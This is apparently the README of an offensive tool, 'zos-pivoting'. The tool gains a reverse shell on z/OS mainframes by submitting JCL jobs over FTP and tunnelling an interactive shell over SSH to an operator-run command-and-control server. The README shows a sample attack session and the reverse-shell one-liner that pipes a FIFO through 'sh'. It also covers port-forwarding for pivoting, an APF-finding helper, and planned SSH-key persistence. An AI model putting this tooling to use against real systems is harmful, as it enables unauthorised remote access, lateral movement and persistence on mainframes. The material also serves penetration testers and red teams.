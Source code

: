 # zos-pivoting

I wanted a secure reverse shell, with builtin pivoting functions, On a mainframe!

This repo contains a few Python modules and scripts to get a secure reverse shell by submitting a JCL job via FTP on z/OS. Here's a verbose example:

```
$ python ftp2shell.py config.ini -v
Input the password for zuser on target.mainframe.net:
INFO:root:Auto-detecting the ssh server fingerprint
INFO:root:Generating SSH keys

Save the pulic key below in ~cc_user/.ssh/authorized_keys

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAAB[...]

Press Enter to continue...
INFO:root:Opening FTP connection to the target at target.mainframe.net
INFO:root:Generating temporary files for the shell
INFO:root:Uploading the SSH key on the target
INFO:root:Uploading the host fingerprint on the target
INFO:root:Creating the FIFO for the shell
INFO:root:Running the reverse SSH command
INFO:root:Shell preparation
INFO:root:Waiting for target.mainframe.net activation
target.mainframe.net> uname
OS/390
target.mainframe.net> help

Documented commands (type help <topic>):
========================================
EOF  _findapf  _runssh  exit  help

target.mainframe.net> exit
This will terminate the connection to target.mainframe.net, are you sure? (y/N) y
```

## Usage:
The main files are:
 * `config.ini` a sample configuration file
 * `ftp2shell.py` the main script, it uses the config file and the next items

To get a shell:
 * Edit `config.ini`
 * Run `python ftp2shell.py config.ini`. The script will:
    - connect to the mainframe via FTP
    - generate and run a JCL batch
    - start an SSH connection against `cc_server` and start a tunneled clear-text shell
    - start the shell management
 * The resulting shell is a nearly full-featured SH shell.
The SSH tunnelling protects the shell.
 * There is a custom `_runssh` command which can be used to run further SSH commands.
Think port forwarding and that goodness.
For example, to get access to TN3270 on your localhost run:
```
mainframe> _runssh -R 2222:127.0.0.1:23
```
And then connect to localhost:2222.
 * there is also a `_findapf` command there too. You should know what that is for :)

## Design
This project uses the SSH stdin and stout redirection to get a fully interactive reverse shell on a mainframe.
You need OpenSSH>=5.4.

Here is an example:

```
ssh -i $KEYNAME $CCU@$CCS -p $CCP -o UserKnownHostsFile=$KNOWNHOSTSFILE -o StrictHostKeyChecking=yes -N \
-W $NCIP:$NCP < $FIFONAME | sh -s > $FIFONAME 2>&1 & echo $STARTSEND > $FIFONAME'
```

SSH tunnels stdin and stdout, piping to a shell.
A FIFO file contains all the inputs and outputs to and from the shell.
Please note how awesome the strong host fingerprint checking and the key-based authentication are.

The same principle can be applied to other systems running SSH.

You have to do the cleanup on the mainframe by yourself.

Python >= 3.7 only.

## Requirements
You have to create a user in your machine to get the reverse connection on your `cc_server` (see the config file).
The user does not need an interactive shell.

## Dependencies
OpenSSH>=5.4.

Python >= 3.7.

You can install the [ebcdic](https://pypi.org/project/ebcdic/) package to support more character encodings.

The default EBCDIC support in Python 3 should be enough most of the time.

## Future Steps
* Automate the pivoting by parsing the output of netstat/NETSTAT and:
    - ssh -R
    - ssh -L
    - starting a local sshd
* Persistence via SSH keys (?)
* Port to other systems

## Can't do on z/OS
* Cannot automate running custom sshd server:
    * sshd has no run permissions for users by default
    * copying the binary to another path will not work, as a daemon need to be marked as `program controlled`
    * ***z/OS 2.4 will probably get the latest and greatest OpenSSH with full `-R` support***
